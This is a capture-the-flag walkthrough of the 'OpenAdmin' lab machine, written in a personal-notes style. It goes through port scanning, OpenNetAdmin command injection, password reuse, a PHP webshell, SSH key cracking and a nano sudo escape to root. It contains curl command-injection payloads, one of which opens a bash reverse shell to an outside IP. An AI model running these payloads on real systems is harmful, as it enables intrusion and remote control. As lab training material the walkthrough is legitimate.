# OpenAdmin
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.171                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 17:39 BST
Nmap scan report for 10.10.10.171 (10.10.10.171)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
|_  256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.34 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.171 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/06/27 17:52:42 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
```
- Web server


- `/ona`

- If you click login on `/music` page, it will redirect you to `/ona` page



## Foothold
- `searchsploit`



- Check exploit 



- We can test it manually
  - `curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/`



- Let's try reverse shell
  - `curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.7/6666 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/`





## User 1
- Enumerating for privesc
  - Started from local directory
  - `grep -inRE "*passwd*" .` to search for config files with password




- Open `mysql`


- Before cracking let's try `su` for password reuse with `n1nj4W4rri0R!`
  - And it works for `jimmy`



## User 2
- We see a folder owned by `jimmy`


- We see the source files
  - Let's check open ports
    - Strange port `52846`
  - And if apache or nginx was running (`ona` was hosted by apache)
    - `internal.openadmin.htb` on port `52846`






- Let's configure port forwarding via SSH





### Webshell
- We can create webshell `php` file and access it




- Let's get reverse shell





### SSH
- If we read source code of internal we can see that after login we will get a joanna's key
  - And the creds for access are hardcoded


- I tried connecting with the key, but it was encrypted
  - So I used `john` to find a passphrase
  - `bloodninjas`


## Root
- Started with checking `sudo` rights



- `GTFOBins`


- Steps:
  - `sudo /bin/nano /opt/priv`
  - `CTRL + R`
  - `CTRL + X`
  - `reset; sh 1>&0 2>&0`
  - Rooted


